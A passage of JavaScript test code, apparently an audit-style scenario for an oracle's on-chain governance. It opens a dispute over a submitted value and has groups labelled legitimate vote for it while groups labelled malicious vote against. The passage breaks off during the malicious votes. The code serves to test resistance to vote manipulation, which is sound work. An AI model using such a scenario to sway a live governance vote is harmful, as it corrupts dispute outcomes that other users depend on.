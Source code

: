 ```
await  flex.connect(valueSubmitter).submitValue(ETH_QUERY_ID, h.bytes(100), 0, ETH_QUERY_DATA);

const  blocky = await h.getBlock();

  

// Begin dispute

await  token.mint(disputeStarter.address, web3.utils.toWei("10"));

await  token.connect(disputeStarter).approve(gov.address, web3.utils.toWei("10"));

await  gov.connect(disputeStarter).beginDispute(ETH_QUERY_ID, blocky.timestamp);

  

console.log("Dispute started. Beginning voting...");

  

// Legitimate votes: all legitimate groups vote in SUPPORT

for (let  i = 0; i < legitimateAutopayUsers.length; i++) {

await  gov.connect(legitimateAutopayUsers[i]).vote(1, true, false);

}

  

for (let  i = 0; i < legitimateTokenHolders.length; i++) {

await  gov.connect(legitimateTokenHolders[i]).vote(1, true, false);

}

  

for (let  i = 0; i < legitimateReporters.length; i++) {

await  gov.connect(legitimateReporters[i]).vote(1, true, false);

}

  

await  gov.connect(multisig).vote(1, true, false);

  

console.log("Legitimate voting complete. Now starting malicious voting...");

  

// Malicious votes: all malicious actors vote AGAINST

for (let  i = 0; i < maliciousAutopayUsers.length; i++) {

await  gov.connect(maliciousAutopayUsers[i]).vote(1, false, false);

}

  
```